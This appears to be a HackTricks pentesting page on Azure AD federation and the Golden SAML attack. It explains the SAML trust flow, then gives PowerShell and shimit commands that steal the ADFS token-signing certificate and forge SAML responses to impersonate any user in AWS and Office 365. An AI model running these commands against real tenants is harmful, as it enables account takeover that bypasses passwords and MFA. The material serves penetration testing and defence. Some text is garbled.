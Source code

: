 # Az - Federation

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**Federation** is a collection of **domains** that have established **trust**. The level of trust may vary, but typically includes **authentication** and almost always includes **authorization**. A typical federation might include a **number of organizations** that have established **trust** for **shared access** to a set of resources.

You can **federate your on-premises** environment **with Azure AD** and use this federation for authentication and authorization. This sign-in method ensures that all user **authentication occurs on-premises**. This method allows administrators to implement more rigorous levels of access control. Federation with **AD FS** and PingFederate is available.

<figure><img src="../../../../images/image (154).png" alt=""><figcaption></figcaption></figure>

Bsiacally, in Federation, all **authentication** occurs in the **on-prem** environment and the user experiences SSO across all the trusted environments. Therefore, users can **access** **cloud** applications by using their **on-prem credentials**.

**Security Assertion Markup Language (SAML)** is used for **exchanging** all the authentication and authorization **information** between the providers.

In any federation setup there are three parties:

- User or Client
- Identity Provider (IdP)
- Service Provider (SP)

(Images from https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../images/image (121).png" alt=""><figcaption></figcaption></figure>

1. Initially, an application (Service Provider or SP, such as AWS console or vSphere web client) is accessed by a user. This step might be bypassed, leading the client directly to the IdP (Identity Provider) depending on the specific implementation.
2. Subsequently, the SP identifies the appropriate IdP (e.g., AD FS, Okta) for user authentication. It then crafts a SAML (Security Assertion Markup Language) AuthnRequest and reroutes the client to the chosen IdP.
3. The IdP takes over, authenticating the user. Post-authentication, a SAMLResponse is formulated by the IdP and forwarded to the SP through the user.
4. Finally, the SP evaluates the SAMLResponse. If validated successfully, implying a trust relationship with the IdP, the user is granted access. This marks the completion of the login process, allowing the user to utilize the service.

**If you want to learn more about SAML authentication and common attacks go to:**

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/saml-attacks
{{#endref}}

## Pivoting

- AD FS is a claims-based identity model.
- "..claimsaresimplystatements(forexample,name,identity,group), made about users, that are used primarily for authorizing access to claims-based applications located anywhere on the Internet."
- Claims for a user are written inside the SAML tokens and are then signed to provide confidentiality by the IdP.
- A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
- TheImmuatbleIDisstoredon-premasms-DS-ConsistencyGuidforthe user and/or can be derived from the GUID of the user.
- More info in [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML attack:**

- In ADFS, SAML Response is signed by a token-signing certificate.
- If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user synced to Azure AD!
- Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
- The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine.
- More info in [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

The process where an **Identity Provider (IdP)** produces a **SAMLResponse** to authorize user sign-in is paramount. Depending on the IdP's specific implementation, the **response** might be **signed** or **encrypted** using the **IdP's private key**. This procedure enables the **Service Provider (SP)** to confirm the authenticity of the SAMLResponse, ensuring it was indeed issued by a trusted IdP.

A parallel can be drawn with the [golden ticket attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), where the key authenticating the user’s identity and permissions (KRBTGT for golden tickets, token-signing private key for golden SAML) can be manipulated to **forge an authentication object** (TGT or SAMLResponse). This allows impersonation of any user, granting unauthorized access to the SP.

Golden SAMLs offer certain advantages:

- They can be **created remotely**, without the need to be part of the domain or federation in question.
- They remain effective even with **Two-Factor Authentication (2FA)** enabled.
- The token-signing **private key does not automatically renew**.
- **Changing a user’s password does not invalidate** an already generated SAML.

#### AWS + AD FS + Golden SAML

[Active Directory Federation Services (AD FS)](<https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402(v=msdn.10)>) is a Microsoft service that facilitates the **secure exchange of identity information** between trusted business partners (federation). It essentially allows a domain service to share user identities with other service providers within a federation.

With AWS trusting the compromised domain (in a federation), this vulnerability can be exploited to potentially **acquire any permissions in the AWS environment**. The attack necessitates the **private key used to sign the SAML objects**, akin to needing the KRBTGT in a golden ticket attack. Access to the AD FS user account is sufficient to obtain this private key.

The requirements for executing a golden SAML attack include:

- **Token-signing private key**
- **IdP public certificate**
- **IdP name**
- **Role name (role to assume)**
- Domain\username
- Role session name in AWS
- Amazon account ID

_Only the items in bold are mandatory. The others can be filled in as desired._

To acquire the **private key**, access to the **AD FS user account** is necessary. From there, the private key can be **exported from the personal store** using tools like [mimikatz](https://github.com/gentilkiwi/mimikatz). To gather the other required information, you can utilize the Microsoft.Adfs.Powershell snapin as follows, ensuring you're logged in as the ADFS user:

```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```

With all the information, it's possible to forget a valid SAMLResponse as the user you want to impersonate using [**shimit**](https://github.com/cyberark/shimit)**:**

```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```

<figure><img src="../../../../images/image (128).png" alt=""><figcaption></figcaption></figure>

### On-prem -> cloud

```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

It's also possible to create ImmutableID of cloud only users and impersonate them

```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
- [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{{#include ../../../../banners/hacktricks-training.md}}



